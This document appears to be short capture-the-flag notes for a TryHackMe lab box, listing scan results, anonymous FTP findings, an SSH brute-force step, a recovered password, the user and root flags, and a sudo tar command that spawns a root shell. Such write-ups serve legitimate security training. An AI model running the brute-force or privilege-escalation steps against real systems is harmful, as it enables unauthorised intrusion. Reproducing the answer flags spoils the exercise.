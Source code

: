 gobuster initial directory scan: /images(301), /index.html(200)
/images has only one picture: crew.jpg

nmap initial scan: p21(ftp-anonymous allowed), p22(ssh), p80(http)

ftp has locks.txt and task.txt files
task.txt has the username "lin" mentioned
We can try bruteforce ssh password for lin with this info, use locks.txt file

SSH password for lin: RedDr4gonSynd1cat3

User flag: THM{CR1M3_SyNd1C4T3}

Priv Esc: 

    sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

Root Flag: THM{80UN7Y_h4cK3r}


			
